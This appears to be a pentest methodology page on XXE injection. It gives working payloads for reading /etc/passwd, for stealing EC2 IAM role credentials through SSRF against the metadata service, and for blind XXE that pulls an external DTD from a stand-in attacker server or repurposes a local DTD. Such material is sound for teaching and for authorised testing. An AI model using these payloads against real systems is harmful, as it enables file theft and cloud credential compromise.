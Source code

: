 # XXE injection

## Theory

Some web applications handle data and rely on the XML format to exchange data with the browsers.

> XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.
>
> XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data ([portswigger](https://portswigger.net/web-security/xxe)).

XXE injections can sometimes lead to [SSRF (Server-Side Request Forgery)](ssrf.md), Local File Disclosure, Sensitive Information Disclosure, Data Exfiltration, RCE (Remote Code Execution) and so on.

## Practice

### Identify an XXE injection vulnerability

Testers need to find inputs or forms that send XML formatted data to the application.

For instance, in the following request, the user submitted a search form with the input "TESTINPUT".

```http
POST /action HTTP/1.1
Host: some.website
[...]
Connection: close

<?xml version="1.0"?>
<searchForm>  
         <from>TESTINPUT</from>
</searchForm>
```

The tester can detect if the XML parser parses the external entities by defining one inside a `DOCTYPE` element, and checking if the value in the `from` element gets replaced (the value will be replaced in the reflected messages sent by the application like error messages, search results).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom "VULNERABLE"> ]>
<searchForm>  
         <from>&newfrom;</from>
</searchForm>
```

A vulnerable application should replace the value by "VULNERABLE".&#x20;

### Retrieve content of local files

When the tester has identified a vulnerable entry point (see [identify an XXE](xxe-injection.md#identify-an-xxe-injection-vulnerability)). He can try to disclose local files by replacing the `from` value with the content of a sensitive file (e.g. `/etc/passwd`).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom SYSTEM "file:///etc/passwd"> ]>
<searchForm>
  <from>&newfrom;</from>
</searchForm>
```

### Conduct an SSRF attack

An XXE can be exploited to conduct an SSRF. When an application performs data transfer using XML, the request can be intercepted and forwarded to an internal host as follow.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY newfrom SYSTEM "http://{internal_host}/..."> ]>
<searchForm>
    <from>&newfrom;</from>
</searchForm>
```

<details>

<summary>Example: Get EC2 IAM role temporary credentials</summary>

In the following example, the attacker tries to access the AWS EC2 metadata service to retrieve the EC2 role credentials used by the server.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/metadata/iam/security-credentials/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

```

The internal server will reveal the URL path to access the role's credentials as an error message at each step by displaying the HTTP response body of the accessed URL as follows:&#x20;

1. URL = "http://169.254.169.254/latest/metadata/iam/security-credentials/"\
   The server will return an error message revealing the EC2 role name: `invalid productId ec2-role-name`_._

<!---->

1. URL = "http://169.254.169.254/latest/metadata/iam/security-credentials/ec2-role-name"\
   The server will return an error message revealing the EC2 role's secrets as `invalid productId`.

For more details, refer to the ["XXE to SSRF" PortSwigger lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf).

</details>

### Blind XXE

Sometimes, an XXE injection can be found, but the app doesn't return the values of any defined external entities within its responses. It's called a blind XXE.

There are two ways to find & exploit a blind XXE :&#x20;

* XML parsing errors can be triggered so that sensitive data is included in the error messages.
* Out-of-band network interactions can be initiated, sometimes leaking sensitive data into the interaction data such as[ SSRF attacks](xxe-injection.md#conduct-an-ssrf-attack).

#### Blind XXE via error messages

It is possible to perform a blind XXE by triggering an XML parsing error where the error message contains the sensitive data that needs to be retrieved.

An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows :

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "ATTACKER-DTD-URL"> %xxe;]>
```

Then, on a victim server, the attacker can submit this payload to get access to the `/etc/passwd` file:

<figure><img src="../../.gitbook/assets/ERROR-BASED-BLIND-XXE.png" alt=""><figcaption><p>Diagram explaining a blind XXE</p></figcaption></figure>

<details>

<summary>Example</summary>

In this example, an attacker has access to a website containing a shop.

This shop has a "Check stock" feature that parses XML input but does not display the result.

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

If an attacker intercept this request, he will be able to perform a blind error based XXE. First, on the attacker server, prepare the XML payload that will lead to leak `/etc/passwd` due to an XML parsing error :

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

Then, the attacker will have to perform a out-of-band XXE to call the the payload stored on his exploit server :

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "URL_OF_THE_ATTACKER_PAYLOAD"> %xxe;]>
```

In the HTTP response, the attacker will have access to the `/etc/passwd` file of the victim's server that host the shop. Final payload will look like this :

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://attacker_server/xxe_payload"> 
%xxe;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

</details>

#### Blind XXE by repurposing a local DTD

This type of attack is used when blind out-of-band XXE cannot be performed.

An attacker can trigger error messages using a [loophole in the XML language specification.](#user-content-fn-1)[^1]

The attack consists in invoking an existing DTD file (on the local filesystem). Then, redefining the existing entity in a way that triggers a parsing error containing sensitive data like [Blind XXE via error ](xxe-injection.md#blind-xxe-via-error-messages)messages.

<figure><img src="../../.gitbook/assets/DTD-REPURPOSING-BLIND-XXE.png" alt=""><figcaption><p>Diagram explaining a blind XXE via repurposing a local DTD</p></figcaption></figure>

<details>

<summary>Example</summary>

In this example, an attacker has access to a website containing a shop.

This shop has a "Check stock" feature that parses XML input but does not display the result.

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=bbbbbbbbbbbbbbbbbbbbbbbbbb
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

An attacker can edit the request to repurpose a local DTD. The main challenge is to find an existing DTD.&#x20;

For example, systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`

Knowing this, the attacker can write this payload that will lead to leak the `/etc/passwd` file:&#x20;

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

Final payload will look like this :

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=bbbbbbbbbbbbbbbbbbbbbbbbbb
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

</details>

## Resources

{% embed url="https://portswigger.net/web-security/xxe" %}

{% embed url="https://enciphers.com/how-to-exploit-xxe-vulnerabilities/" %}

{% embed url="https://portswigger.net/web-security/xxe/blind" %}

{% embed url="https://blog.zsec.uk/blind-xxe-learning/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection" %}

[^1]: If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed
